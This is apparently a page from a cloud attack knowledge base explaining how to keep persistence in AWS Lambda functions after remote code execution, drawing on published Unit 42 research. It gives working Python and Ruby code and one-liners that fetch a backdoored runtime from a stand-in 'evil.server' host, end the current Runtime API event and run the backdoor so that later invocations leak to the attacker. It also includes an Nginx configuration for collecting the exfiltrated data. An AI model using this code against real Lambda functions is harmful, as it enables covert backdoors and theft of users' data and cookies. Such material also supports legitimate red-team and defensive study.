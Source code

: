```yaml
---
title: Lambda Persistence
description: How to establish persistence on a Lambda function after getting remote code execution.
---
```


Original Research: [Yuval Avrahami](https://twitter.com/yuval_avrahami)  
Link to Research: [Unit 42: Gaining Persistency on Vulnerable Lambdas](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)  
Additional Reading: [Revisiting Lambda Persistence](https://frichetten.com/blog/revisiting_lambda_persistence/)

!!! Warning
    Depending on the specific runtime and tools available, you will likely have to change the approach taken to gain persistence in a Lambda function. The general concepts should serve as a guide for a more specific attack you develop.

After finding a remote code execution vulnerability in a Lambda function, you'll probably want to establish persistence. The steps to do this will depend on the specific runtime that is being used by the Lambda function. Below the Python and Ruby runtimes are used as an example.

!!! Note
    See the "Creating a Listener" section at the bottom of this page for how to setup a listener for exfiltrated data.

## Python Runtime

After identifying that your target is using the Python runtime, you'll need a copy of the `/var/runtime/bootstrap.py` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you'll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

<figure markdown>
  ![Python - Backdoored Lambda Bootstrap File](/images/aws/persistence/lambda_persistence/python_backdoor_bootstrap.png){ loading=lazy }
</figure>

!!! Note
    You can customize what the backdoor does, depending on what you're looking to do. Maybe you want to leak a specific user's data. Maybe you just want Cookies. It's up to you!

With the `bootstrap.py` file backdoored, you'll want to host it in a location that is accessible for the Lambda function to pull down. 

The next step is creating a one-liner to pull down this modified code, as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

``` py
import urllib3
import os
http = urllib3.PoolManager()

# Writing the new bootstrap to a file
r = http.request('GET', 'https://evil.server/bootstrap.py')
w = open('/tmp/bootstrap.py', 'w')
w.write(r.data.decode('utf-8'))
w.close()

# Getting the current request ID
r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
rid = r.headers['Lambda-Runtime-Aws-Request-Id']

# End the current event
http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'})

# Swap the runtimes
os.system('python3 /tmp/bootstrap.py')
```

Or as a long one-liner (don't forget to change the hostname):

```
python3 -c "import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://evil.server/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')"
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become "cold" and you will lose access to the persistence you've established. You can execute the function again to keep it "warm" or you can simply reestablish persistence.

## Ruby Runtime

After identifying that your target is using the Python runtime, you’ll need a copy of the `/var/runtime/lib/runtime.rb` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you’ll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

<figure markdown>
  ![Ruby - Backdoored Lambda Bootstrap File 1](/images/aws/persistence/lambda_persistence/ruby_backdoor_bootstrap_1.png){ loading=lazy }
</figure>

<figure markdown>
  ![Ruby - Backdoored Lambda Bootstrap File 2](/images/aws/persistence/lambda_persistence/ruby_backdoor_bootstrap_2.png){ loading=lazy }
</figure>

With the `runtime.rb` file backdoored, you’ll want to host it in a location that is accessible for the Lambda function to pull down. Note, you'll likely want to rename it to something like `run.rb`. This is because you'll want to create a symbolic link between everything in `/var/runtime/lib` to `/tmp`. This will ensure your modified `runtime.rb` file can access all the additional libraries it needs.

The next step is creating a one-liner to create those symbolic links, pull down this modified code, and execute it as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

``` ruby
require 'net/http'

# Writing the new runtime to a file
uri = URI('https://evil.server/run.rb')
r = Net::HTTP.get_response(uri)
File.write('/tmp/run.rb', r.body)

# Getting the current request ID
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
r = Net::HTTP.get_response(uri)
rid = r.header['Lambda-Runtime-Aws-Request-Id']

# End the current request
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response')
Net::HTTP.post(uri, 'null')
```

Or as a long one-liner (don’t forget to change the hostname, create the symbolic links, or execute the code in the background):

```
ln -s /var/runtime/lib/* /tmp && ruby -e "require 'net/http';uri = URI('https://evil.server/run.rb');r = Net::HTTP.get_response(uri);File.write('/tmp/run.rb', r.body);uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');r = Net::HTTP.get_response(uri);rid = r.header['Lambda-Runtime-Aws-Request-Id'];uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response');Net::HTTP.post(uri, 'null')" && ruby /tmp/run.rb &
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become “cold” and you will lose access to the persistence you’ve established. You can execute the function again to keep it “warm” or you can simply reestablish persistence.

## Creating a Listener

How you receive leaked events is up to you. The author found that the simplest way was via post requests to an Nginx server. The configuration was simple. First, outside of the server block, include a line like `log_format postdata $request_body`.

Next, include the following inside the server block:

```
location = /post {
    access_log /var/log/nginx/postdata.log postdata;
    proxy_pass http://127.0.0.1/post_extra;
}
location = /post_extra {
    access_log off;
    return 200;
}
```

After restarting Nginx, all logs received via post requests should be stored in `/var/log/nginx/postdata.log`.